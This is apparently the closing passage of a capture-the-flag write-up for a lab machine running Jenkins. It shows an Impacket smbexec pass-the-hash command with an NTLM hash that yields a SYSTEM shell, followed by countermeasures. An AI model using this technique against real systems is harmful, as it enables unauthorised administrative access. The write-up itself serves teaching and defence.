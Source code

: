 ```none
$ python3 ~/tools/impacket/examples/smbexec.py -hashes aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00 Administrator@10.10.10.63
Impacket v0.9.22.dev1+20200826.101917.9485b0c2 - Copyright 2020 SecureAuth Corporation

[!] Launching semi-interactive shell - Careful what you execute
C:\Windows\system32>whoami
nt authority\system

C:\Windows\system32>
```

## Countermeasures

* Put access controls on the Jenkins service at `http://10.10.10.63:50000` so that malicious users cannot execute arbitrary scripts from the console. If you are not using it, uninstall or disable it.
* Prefer not to keep sensitive information on a server that is running services that have little/no access controls for the services installed on them. If you still want to keep sensitive information there, create a dedicated user to run the services such as Jenkins. That dedicated user's task should be only to run Jenkins (i.e. no sensitive information or secrets should be placed in that user's directories in the case of a breach).
